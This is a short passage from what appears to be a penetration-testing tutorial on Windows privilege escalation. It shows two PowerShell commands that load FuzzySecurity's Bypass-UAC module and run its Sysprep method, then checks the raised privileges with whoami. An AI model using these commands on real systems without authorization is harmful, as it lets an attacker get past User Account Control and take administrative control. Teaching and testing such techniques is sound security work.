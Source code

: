 ```cmd-session
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep
```

<figure><img src="../../../.gitbook/assets/image (389).png" alt=""><figcaption></figcaption></figure>

Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.
